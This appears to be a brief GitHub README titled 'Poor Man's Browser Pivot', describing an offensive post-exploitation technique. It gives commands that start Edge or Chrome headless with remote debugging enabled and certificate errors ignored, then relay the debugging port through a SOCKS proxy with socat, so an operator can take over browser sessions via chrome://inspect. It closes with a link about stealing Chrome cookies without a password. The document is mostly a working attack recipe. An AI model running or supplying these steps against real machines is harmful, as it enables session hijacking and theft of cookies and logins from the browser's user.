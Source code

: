 # Poor Man's Browser Pivot

## 01 - Make Web Browser Debug Mode

### Microsoft Edge

```
C:\> "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --headless --ignore-certificate-errors --remote-debugging-port=<browser_PORT> --user-data-dir=%LOCALAPPDATA%\temp\debug-dir about:blank
```

### Google Chrome

```
C:\> chrome.exe --headless --ignore-certificate-errors --remote-debugging-port=<browser_PORT> --user-data-dir=%LOCALAPPDATA%\temp\debug-dir about:blank
```

## 02 - Port Forwarding

```
$ socat tcp4-listen:<local_PORT>,fork SOCKS4:127.0.0.1:127.0.0.1:<browser_PORT>,socksport=<SOCKS4_PORT>
```

Open google chrome or any chromium-based web browser and enter the URL with `chrome://inspect/`.

https://mango.pdf.zone/stealing-chrome-cookies-without-a-password